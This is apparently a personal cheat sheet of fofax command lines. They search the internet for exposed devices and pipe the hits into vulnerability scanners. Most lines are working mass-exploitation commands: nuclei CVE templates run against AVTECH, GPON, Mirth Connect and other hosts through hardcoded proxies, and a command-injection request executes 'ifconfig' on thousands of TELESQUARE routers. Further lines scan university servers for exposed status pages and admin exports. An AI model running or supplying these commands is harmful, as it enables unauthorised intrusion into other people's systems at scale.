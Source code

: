 
# fofax

	https://fofax.xiecat.fun/link

```https://fofax.xiecat.fun/link
1. fofax -q 'body="AVTECH Software"' -ffi -fs 1000 | nuclei -t cves/2024/CVE-2024-7029.yaml -proxy http://172.86.75.51:8080 -rl 560

2. echo '(app=TELESQUARE-TLR-2005KSH)' | fofax -fs 59000 -ffi | httpx -path '/cgi-bin/admin.cgi?Command=sysCommand&Cmd=ifconfig' -mr addr -t 700 >> rout_vuln.txt

3. fofax -q body='GPON' -ffi -fs 100 |  nuclei -t /home/dtt/nuclei-templates/http/cves/2018/CVE-2018-10562.yaml

4. fofax -q 'country!="CN" && "Text:In order to access the ShareCenter, please make sure you are using a recent browser(IE 7+, Firefox 3+, Safari 4+, Chrome 3+, Opera 10+)"' -ffi -fs 10000 >> d_link.txt

5. fofax -q '"<TITLE>Web user login</TITLE>" && "<META content\==MSHTML 6.00.2900.5583\" name\=GENERATOR></HEAD>" && country!=CN' -ffi -fs 1000 | nuclei -t cves/2024/CVE-2024-7120.yaml -proxy http://172.86.75.51:8080 -rl 560

6. title="mirth connect administrator" 
7. fofax -q 'title="mirth connect administrator" && country!="CN"' -ffi -fs 500 |nuclei -t cves/2023/CVE-2023-43208.yaml -proxy socks5://3.212.213.41:9050 -rl 999

fofax -qf query.txt -fe -fs 10 -e
fofax -iuf baidu.txt -ubq
fofax -q 'domain="baidu.com"' |httpx -path "/favicon.ico" -mc 200>baidu.txt

echo '(app=TELESQUARE-TLR-2005KSH)' | fofax -fs 59000 -ffi | httpx -path '/cgi-bin/admin.cgi?Command=sysCommand&Cmd=ifconfig' -mr addr -t 700 >> rout_vuln.txt
echo '(title="职业学院" || title="大学" || title="职业技术学院" || title="学院") && country="CN"' | fofax -ff 'domain' -fs 10 | naabu
echo '(title="职业学院" || title="大学" || title="职业技术学院" || title="学院") && country="CN"' | fofax -fs 5000 -ffi | httpx -path '/server-status' -mr 'name=' -t 700
echo 'host="edu.cn" && country="CN"' | fofax -fs 5000 -ffi | httpx -path '/server-status' -mr 'name=' -t 700
nmap -iL <(echo 'app="APACHE-Solr"' | fofax -fs 10 -ff ip)
./dismap -file <(echo 'title="login"' | fofax -fs 10 -ffi)
fofax  -q 'title="Apache APISIX Dashboard"' -ffi|httpx -title
fofax -q 'title="Apache APISIX Dashboard"' -ffi | httpx -path "/apisix/admin/migrate/export" -status-code -mc 200 -ms '{"Counsumers":[],"Routes'
echo 'header="rememberme=deleteMe" || header="shiroCookie"' | fofax -fs 100 -e -ec | httpx -o shiro.txt && xray ws ss --uf shiro.txt
fofax -q 'fx=kubernetes' -fe | httpx | nuclei -t ~/nuclei-templates/misconfiguration/kubernetes/kubernetes-pods.yaml
echo 'fx=kubernetes' | fofax  -fe  -ffi | nuclei -t ~/nuclei-templates/misconfiguration/kubernetes/kubernetes-pods.yaml

```

